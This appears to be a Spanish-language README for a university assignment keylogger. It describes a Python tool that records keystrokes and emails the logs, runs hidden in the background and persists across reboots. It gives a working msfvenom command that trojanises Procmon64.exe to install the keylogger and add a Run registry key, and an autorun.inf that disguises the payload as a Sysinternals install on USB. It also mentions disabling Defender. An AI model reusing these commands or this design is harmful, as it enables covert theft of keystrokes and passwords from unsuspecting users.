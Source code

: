 # Keylogger

Multiplatform keylogger for a uni assignment from 2021 (Spanish)

## Descripción

Los módulos de python de los que depende, principalmente, son el módulo `keyboard` para capturar las pulsaciones, y el módulo `smtplib` para enviar el log por correo electrónico.

El resultado es un programa multiplataforma (Windows/Linux) que crea el archivo local `pulsaciones_grabadas.txt`, añadiendo cada minuto las pulsaciones capturadas y, cada 2 horas, lo envia por mail a nuestro correo electrónico. A partir del parámetro opcional de la función `keyboard.wait()`, se define el atajo `CTRL+SHIFT+ESPACIO` para terminar la ejecución del keylogger, momento en que enviará por correo el contenido de `pulsaciones_grabadas.txt` y eliminará el archivo.

Pensando en la persistencia, se ha añadido también la posibilidad de detectar si ya existe un archivo `pulsaciones_grabadas.txt` al empezar la ejecución, lo que significaría que ha habido un reinicio desde el último mail enviado y el momento actual. De ser el caso, envía el archivo inmediatamente y continúna con la ejecución.

En tanto que el soporte del módulo `keyboard` para unicode es limitado, se ha solucionado la detección de caracteres acentuados a partir de un diccionario de substitución, para poder dar soporte a cadenas de texto tanto en catalán como en castellano. Asimismo, se ha usado el mismo método para mayor legibilidad de los caracteres especiales.

## Creación de ejecutable

El código del keylogger ha sido compilado con `pyinstaller`, con las opciones `--onefile` y `--noconsole` para convertirlo en un ejecutable portable y que se ejecute en segundo plano, respectivamente.

A continuación inyectamos los comandos de instalación en otro archivo con `msfvenom` (incluido en *Metasploit Framework*):

```shell
msfvenom -p windows/x64/exec cmd="cmd /c xcopy /h /y /q E:\keylogger.exe C:\Temp\ | findstr /v . & reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v Keylogger /t REG_SZ /d C:\Temp\keylogger.exe /f | findstr /v . & C:\Temp\keylogger.exe" exitfunc=thread -x Procmon64.exe -k -f exe -o SysInternals.exe
```

Se ha escogido arbitrariamente el programa Procmon64.exe de la suite de Sysinternals de Windows. Los comandos que se ejecutarán al abrirlo serán, en este orden: la copia del
keylogger.exe de la unidad USB al directorio `C:\Temp\`; la adición del keylogger en la clave `CurrentVersion\Run` del registro (lo que hará que se ejecute en cada reinicio); y, por último, la ejecución del keylogger desde su nueva ubicación.

En tanto que las signaturas de `msfvenom` son conocidas para Microsoft Defender, deshabilitaremos temporalmente la protección en tiempo real para la demostración.

## Ejecución en USB

Añadimos keylogger.exe (oculto), SysInternals.exe y creamos el archivo autorun.inf en la carpeta raíz del USB con los siguientes contenidos:

```
[Autorun]
Open=SysInternals.exe
Action=Instalar System Internals
Label=Drivers
```

Aún así, cabe destacar que la funcionalidad autorun vía USB ha sido deshabilitada para las versiones de Windows posteriores a Vista, por lo que este último paso no tendrá efecto en estas.
